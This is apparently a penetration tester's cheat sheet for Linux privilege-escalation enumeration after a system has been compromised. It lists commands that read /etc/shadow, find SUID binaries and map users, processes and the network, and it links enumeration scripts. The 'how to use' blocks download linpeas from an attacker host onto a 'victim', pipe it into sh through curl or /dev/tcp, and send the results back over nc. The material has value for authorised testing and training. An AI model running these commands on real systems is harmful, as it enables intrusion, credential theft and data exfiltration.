 # manual

- user-related
    - whoami
    - id
    - id <user>
    - who
    - w
    - last
- system-related
    - uname -a
    - lsb_release -a
    - cat /proc/version
    - cat /etc/issue
    - hostnamectl, hostname
    - ps -ef, ps aux, ps axjf
    - top -n 1
- network-related
    - ip a, ifconfig
    - ip route, route
    - ip neigh, arp -a
    - netstat -a, netstat -l, netstat -at, netstat -au
    - netstat -s
    - netstat -ano
- priviledge-related
    - sudo -l
    - getcap -r / 2>/dev/null
    - cat /etc/passwd
    - cat /etc/shadow
- usage-related
    - ls -liah
    - history
- schedule-joibs
    - cat /etc/crontab
- environment
    - echo $PATH
    - env
    - which python gcc ruby perl find netcat nc wget curl ftp tmux screen 2>/dev/null
- find / -perm -u=s -type f 2>/dev/null
- cat /etc/fstab

# script

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

## how to use

```bash
# from network
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# from local, curl
sudo python -m http.server 80 # on host
curl <host>/linpeas.sh | sh   # on victim

# by nc
sudo nc -q 5 -lvnp 80 < linpeas.sh # on host
cat < /dev/tcp/<host>/80 | sh      # on victim
```

```bash
# execute on victim and send output back to host
nc -lvnp 8899 | tee linpeas.out                # on host
curl <host>/linpeas.sh | sh | nc <host> 8899   # on victim
cat < /dev/tcp/<host>/80 | sh | nc <host> 8899 # on victim
```